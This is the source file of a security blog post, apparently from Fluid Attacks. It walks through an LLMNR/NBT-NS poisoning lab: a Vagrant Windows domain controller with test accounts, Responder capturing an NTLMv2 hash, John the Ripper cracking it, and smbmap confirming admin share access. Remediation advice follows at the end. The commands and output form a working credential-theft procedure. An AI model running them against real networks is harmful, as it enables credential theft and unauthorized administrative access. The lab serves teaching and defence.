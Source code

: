:page-slug: respond-the-name/
:page-date: 2020-03-31
:page-category: attacks
:page-subtitle: Attacking a network using Responder
:page-tags: security, windows, vulnerability, credential
:page-image: https://res.cloudinary.com/fluid-attacks/image/upload/v1620331057/blog/respond-the-name/cover_uuwp7r.webp
:page-alt: Red wooden mailbox near green leaf plan. Photo by Bundo Kim on Unsplash.
:page-description: Windows hosts use LLMNR and NBT-NS for name resolution on the local network. These protocols do not verify addresses, and here we detail how to exploit this.
:page-keywords: Windows, LLMNR, NBT-NS, Security, Vulnerability, Hacking, Network, Cracking, Ethical Hacking, Pentesting
:page-author: Jonathan Armas
:page-writer: johna
:name: Jonathan Armas
:about1: Systems Engineer, OSCP - Security+
:about2: "Be formless, shapeless like water" Bruce Lee
:source: https://unsplash.com/photos/S-TcfjrYVKo

= Respond the Name

`Link Local Multicast Name Resolution` (`LLMNR`)
and `NetBIOS Name Service` (`NBT-NS`)
are two name resolution protocols that help `Windows` hosts
to find address names from other devices on the network.
These are `Windows` components
and are alternate methods of host identification.
`LLMNR` is based upon the `Domain Name System` (`DNS`),
it uses a simple exchange of request and response messages
to resolve computer names on `IPV6` or `IPV4` addresses.

`NBT-NS` uses `NetBIOS` to resolve `IPV4` addresses
by broadcasting a `NetBIOS Name Query Request` message
to the local subnet broadcast address using the port `UDP 137`.
The node that owns the queried name
then sends back a unicast message to the requestor.
If `NBT-NS` is disabled then it will need to use `DNS` queries to resolve names,
and if the network does not have `DNS` servers
then the names should be in the `Hosts` file of the machine.

`LLMNR` messages use a similar format to `DNS` messages
but use `UDP port 5355`.
It works by sending a `LLMNR Name Query Request` message
to the multicast address,
this multicast address is scoped to prevent a multicast enabler router
from forwarding the request outside the requestor subnet.
If a host on the subnet is authoritative for the request name
it sends a unicast response to the requestor.

As both protocols use broadcast messages to resolve names on the network,
an attacker can listen to them
and then respond with a spoof of an authoritative source
for name resolution as if he knew the requested name.
Then with the service poisoned,
the victim will continue the communication with the attacker,
and if the network resource needs authentication,
the victim will send a username and an `NTLMv2` hash.
Here the attacker can use tools like `JohnTheRipper`
to crack the credentials and have access to the system.
This attack is called `LLMNR/NBT-NS Poisoning and Relay`.

== Responder lab

To set up our lab we are going to use `Hashicorp's` link:https://www.vagrantup.com/[Vagrant];
the source files are below.
Create a folder with the name `requestor`
and save the `Vagrantfile` there.
Also create another folder inside `requestor` named `provision`
and save the file `ad.ps1` there.

.setting up the lab
[source, bash, linenums]
----
$ mkdir requestor
$ cd requestor
requestor$ nano Vagrantfile #Add here the content
requestor$ mkdir provision
requestor$ nano provision/ad.ps1 #Add here the content
----

.Vagrantfile
[source, ruby]
----
# -*- mode: ruby -*-
# vi: set ft=ruby :

Vagrant.configure("2") do |config|

  config.vm.box = "cdaf/WindowsServerDC"
  config.vm.hostname = "winserver"
  config.vm.network "private_network", ip: "192.168.56.2"
  config.vm.provision "shell", path: "provision/ad.ps1"

end
----

.provision/ad.ps1
[source, powershell]
----
Import-Module ServerManager
Add-WindowsFeature RSAT-AD-PowerShell
import-module activedirectory
New-ADuser -Name "reqtest" -SamAccountName reqtest -Enabled $true -AccountPassword (ConvertTo-SecureString -AsPlainText "SuperSecure@123!!!" -Force)
New-ADuser -Name "svctest" -SamAccountName svctest -Enabled $true -AccountPassword (ConvertTo-SecureString -AsPlainText "Monkey.123" -Force)
setspn -A sky.net/reqtest reqtest
setspn -A sky.net/svctest svctest
Add-ADGroupMember -Identity "Administrators" -Members svctest
Add-ADGroupMember -Identity "Users" -Members reqtest
----

Then run the environment using:

.vagrant up
[source, bash]
----
requestor$ vagrant up
----

This will create a `Windows` machine
with `Active Directory` installed and configured.
At this point, everything we need has been completed
and is ready for us to launch an attack.

Now we can set up our attacking machine.
Here we are using link:https://www.kali.org/[Kali Linux] with `Vagrant` too,
but you can use whatever `OS` you prefer.

These are the tools that we are going to use:

* link:https://github.com/ShawnDEvans/smbmap[smbmap]
* link:https://github.com/SpiderLabs/Responder[Responder]
* link:https://github.com/danielmiessler/SecLists[SecLists]
* link:https://github.com/magnumripper/JohnTheRipper[JohnTheRipper]

If you are using `Kali`, the only thing that needs to be cloned is `Responder`.

.cloning Responder
[source, bash]
----
$ git clone https://github.com/SpiderLabs/Responder
----

We are ready to go.

== Starting the poisoner

The only thing we need to do
is to run `Responder` as a root.
We can do this with the following:

.running Responder
[source, bash, linenums]
----
Responder$ sudo ./Responder.py -I eth1 -wrf
----

.Responder
[source, bash]
----

NBT-NS, LLMNR & MDNS Responder 2.3

Author: Laurent Gaffie (laurent.gaffie@gmail.com)
To kill this script hit CRTL-C


[+] Poisoners:
LLMNR                      [ON]
NBT-NS                     [ON]
DNS/MDNS                   [ON]

[+] Servers:
HTTP server                [ON]
HTTPS server               [ON]
WPAD proxy                 [ON]
SMB server                 [ON]
Kerberos server            [ON]
SQL server                 [ON]
FTP server                 [ON]
IMAP server                [ON]
POP3 server                [ON]
SMTP server                [ON]
DNS server                 [ON]
LDAP server                [ON]

[+] HTTP Options:
Always serving EXE         [OFF]
Serving EXE                [OFF]
Serving HTML               [OFF]
Upstream Proxy             [OFF]

[+] Poisoning Options:
Analyze Mode               [OFF]
Force WPAD auth            [OFF]
Force Basic Auth           [OFF]
Force LM downgrade         [OFF]
Fingerprint hosts          [ON]

[+] Generic Options:
Responder NIC              [eth1]
Responder IP               [192.168.56.103]
Challenge set              [1122334455667788]



[+] Listening for events...
----

Since we are on the same network,
it is only a matter of time to get a request
from a machine in the subnet.
But because our `Windows` machine is doing nothing,
we will receive nothing.

== Capturing credentials

Now let's act like a normal user
in our `Windows` machine.
Log in as `svctest` with the domain `sky.net` and password `Monkey.123`,
then open the start menu and there type `run`.
In there we are going to look for a name on the network,
just type the following:

.searching names
[source, bash]
----
\\FLUIDATTACKS
----

There we will get an error accessing the share,
but in our attacker machine we will get the following:

.Responder output
[source, bash]
----
[*] [LLMNR]  Poisoned answer sent to 192.168.56.2 for name FLUIDATTACKS
[FINGER] OS Version     : Windows Server 2016 Standard Evaluation 14393
[FINGER] Client Version : Windows Server 2016 Standard Evaluation 6.3
[SMB] NTLMv2-SSP Client   : 192.168.56.2
[SMB] NTLMv2-SSP Username : SKY\svctest
[SMB] NTLMv2-SSP Hash     : svctest::SKY:1122334455667788:D78BEB50968B6AEA3D8A9CD04765BB6A:01010000000000008274E5E0A507D60176E66DEAF12162F90000000002000A0053004D0042003100320001000A0053004D0042003100320004000A0053004D0042003100320003000A0053004D0042003100320005000A0053004D00420031003200080030003000000000000000000000000030000037AE67261C1D6D0CEBBD9D3AA1803818C033512B8B0FD6DEBA539CFD272D615B0A001000000000000000000000000000000000000900220063006900660073002F0046004C00550049004400410054005400410043004B0053000000000000000000
[SMB] Requested Share     : \\FLUIDATTACKS\IPC$
[*] [LLMNR]  Poisoned answer sent to 192.168.56.2 for name FLUIDATTACKS
[FINGER] OS Version     : Windows Server 2016 Standard Evaluation 14393
[FINGER] Client Version : Windows Server 2016 Standard Evaluation 6.3
[*] Skipping previously captured hash for SKY\svctest
[SMB] Requested Share     : \\FLUIDATTACKS\IPC$

----

.Respoder result
image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331056/blog/respond-the-name/vulnerability_lutscw.webp[Responder result]

Here we have our hash, they are `NTLMv2 hashes`,
and there we can also view some information about the server
like the OS version and the requested share.
With this, we save that user's hash on a file.

.save hash
[source, bash]
----
echo 'svctest::SKY:1122334455667788:D78BEB50968B6AEA3D8A9CD04765BB6A:01010000000000008274E5E0A507D60176E66DEAF12162F90000000002000A0053004D0042003100320001000A0053004D0042003100320004000A0053004D0042003100320003000A0053004D0042003100320005000A0053004D00420031003200080030003000000000000000000000000030000037AE67261C1D6D0CEBBD9D3AA1803818C033512B8B0FD6DEBA539CFD272D615B0A001000000000000000000000000000000000000900220063006900660073002F0046004C00550049004400410054005400410043004B0053000000000000000000' > hashllmnr
----

And then we crack it using `John`,
a `SecLists` dictionary, and `KoreLogic` ruleset.
Since `NTLMv2` hashes are harder to crack, it could take a while,
depending on your system.

.John cracking
[source, bash]
----
$ john --wordlist=/usr/share/seclists/Passwords/darkweb2017-top100.txt --rules=KoreLogic hashllmnr
----

.John output
[source, bash]
----
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Monkey.123       (svctest)
1g 0:00:00:18 DONE (2020-03-31 17:55) 0.05518g/s 575858p/s 575858c/s 575858C/s Asdfgh.jkl13..Asdfgh.jkl24
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed
----

And it's cracked! Now we can check our access
running `smbmap` again with our new set of credentials.

.samba high privileges
[source, bash]
----
$ smbmap -u svctest -p 'Monkey.123' -d sky.net -H 192.168.56.2
----

.admin smbmap
[source, bash]
----
[+] Finding open SMB ports....
[+] User SMB session establishd on 192.168.56.2...
[+] IP: 192.168.56.2:445        Name: 192.168.56.2
        Disk                                                    Permissions
        ----                                                    -----------
        ADMIN$                                                  READ, WRITE
        C$                                                      READ, WRITE
        IPC$                                                    READ ONLY
        NETLOGON                                                READ, WRITE
        SYSVOL                                                  READ, WRITE
        [!] Unable to remove test directory at \\192.168.56.2\SYSVOL\edWFuwvkCb, plreae remove manually
----

As you can see, we now have administrative access to our server.
You can access it by `RDP` or retrieve files using `SMB`.
Also, you can dump the `SAM` to get more users and hashes;
these last ones are `NTLMv1` and easily cracked.

This could be done using the `reqtest` account or the `vagrant` account.
If an attacker does this in an enterprise network,
he can capture any number of accounts of the network.
Also, there are windows scripts like link:https://github.com/Kevin-Robertson/Inveigh[Inveigh],
where we can do more or less the same attack
with the same results.

=== Solution

The remediation for this attack
is to disable both `LLMNR` and `NBT-NS` on all hosts
because `Windows` defaults to one
when the other fails or is disabled.
A host based security software
that blocks `LLMNR/NBT-NS` requests could also be used.

Another way to mitigate this
is by having and using a strong credential policy.
Passwords must be longer than 20 characters,
contain upper and lower case letters, contain symbols and digits,
and must not be easy to guess. This means you would be wise
to adopt passphrases instead of simple passwords.

This is especially useful when you are dealing with service credentials
because they are the ones most targeted.
You can also set an alert to notify you when someone is logged in
with your most critical and high-privileged users.

If you want more information about strong credentials,
you can check our link:https://docs.fluidattacks.com/criteria/[*Criteria*]
about them.
